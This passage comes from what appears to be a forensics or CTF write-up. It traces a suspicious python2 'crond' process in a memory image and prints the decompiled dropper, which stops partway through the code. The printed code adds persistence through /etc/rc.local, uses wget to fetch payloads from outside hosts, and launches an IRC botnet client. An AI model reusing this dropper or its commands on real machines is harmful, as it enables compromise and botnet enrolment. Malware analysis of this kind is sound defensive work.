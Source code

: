 We could see that aside from normal looking processes there was one suspicious looking python2 process that ran a file called `crond`.

Sadly the freebsd plugin did not have any process dumping features so we resorted to grepping the file for any mentions of `crond` and filtering the results further.

After few different searches we stumbled upon a line in the strings that ran wget on a http url that had the same name as the original file ran with python2.
```
crond.pyt
createRC
wget -O /etc/X11/.crond http://harpa.world/binaries/crond(
crond.pyt
saveDropper
```

## Analyzing the dropper
The file located on the server turned out to be python 2.7 bytecode, after decompiling it we were left with this:
```py
import socket, time, os, random
SERVER = 'distribute.epicmilk.com'
MESSAGE = ''

def wait():
    time.sleep(0.5)


def finish():
    os.system('rm crond')


def addtoRC():
    os.system("echo 'python2 /etc/X11/.crond' >> /etc/rc.local")
    wait()
    os.system("echo 'exit 0' >> /etc/rc.local")


def createRC():
    os.system("echo '#!/bin/sh -e' > /etc/rc.local")
    wait()
    os.system('chmod +x /etc/rc.local')


def saveDropper():
    os.system('wget -O /etc/X11/.crond http://harpa.world/binaries/crond')


def downloadMalware(hash):
    os.system('wget -O /etc/X11/.backbone http://butcher.1337.cx/proj/' + hash + '/master/backbone')
    # 726fd5a10983ebc4a76cd32108b594fe http://butcher.1337.cx/proj/726fd5a10983ebc4a76cd32108b594fe/master/backbone


def executeMalware():
    number = random.choice(range(0, 101))
    os.system("python2 /etc/X11/.backbone irc.teleforce.space 1 '#' Backbone" + str(number) + " 'Butcher Botnet Manager' 0 skyn &")
    wait()
    os.system('rm /etc/X11/.backbone')


def checkPersistence():
```